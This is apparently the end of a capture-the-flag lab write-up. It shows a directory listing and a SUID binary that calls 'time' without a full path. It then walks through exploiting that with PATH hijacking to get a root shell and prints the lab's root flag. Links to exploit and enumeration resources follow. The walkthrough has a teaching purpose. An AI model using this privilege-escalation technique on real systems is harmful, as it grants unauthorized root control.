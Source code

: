     ./iron:
    total 12
    -rw-r--r-- 1 root root 221 Aug 31  2021 effect.txt
    -rw-r--r-- 1 root root 111 Aug 31  2021 ir.txt
    -rw-r--r-- 1 root root 254 Aug 31  2021 wht.txt

    ./nuclear:
    total 28
    -rw-r--r-- 1 root root   75 Aug 31  2021 file.txt
    -rw-r--r-- 1 root root   82 Aug 31  2021 git.txt
    -rw-r--r-- 1 root root   73 Aug 31  2021 nuc.txt
    -rwsr-sr-x 1 root root 8800 Aug 31  2021 remove

    ./nylon:
    total 20
    -rw-r--r-- 1 root root 267 Aug 31  2021 fabric.txt
    -rw-r--r-- 1 root root 308 Aug 31  2021 harmful.txt
    -rw-r--r-- 1 root root 314 Aug 31  2021 nl.txt
    -rw-r--r-- 1 root root 333 Aug 31  2021 non-toxic.txt
    -rw-r--r-- 1 root root 218 Aug 31  2021 usage.txt

Like the FTP server we have many text files with no real help, BUT on the nuclear directory we have a binary with SUID permissions.

    erik@government:~/backups/nuclear$ ./remove
    Error: Please enter a program to time!

The binary might use the time command, but I'm not sure, let's try to get more information by using the strings **`command`**.

    erik@government:~/backups/nuclear$ strings remove

![image](https://user-images.githubusercontent.com/76552238/177804855-eab2c881-ab97-46fc-ad48-d0150fbd34d1.png)

The binary indeed is using the time command. We can now change the PATH environment variable and our own command named time and exploit the binary.

    erik@government:~/backups/nuclear$ touch time
    erik@government:~/backups/nuclear$ echo '/bin/sh' > time
    erik@government:~/backups/nuclear$ chmod +x time
    erik@government:~/backups/nuclear$ export PATH=/home/erik/backups/nuclear:$PATH

Running the **remove** binary should get us a shell as the root user.

![image](https://user-images.githubusercontent.com/76552238/177805587-76f2d338-4839-4d77-8f3f-d6a92cf77d0e.png)

    # cat root.txt
    df2f7ef853a5b36c51509a6f6ae2e7b1


[1]: "https://linuxcommandlibrary.com/man/john"
[2]: "https://crackstation.net/"
[3]: "https://community.bitnami.com/t/default-username-for-postgresql/40330"
[4]: "https://packetstormsecurity.com/files/162051/phpPgAdmin-7.13.0-Command-Execution.html"
[5]: "https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS"
[6]: "https://en.wikipedia.org/wiki/Blowfish_(cipher)"
[7]: "https://en.wikipedia.org/wiki/Triple_DES"
[8]: "https://gchq.github.io/CyberChef/"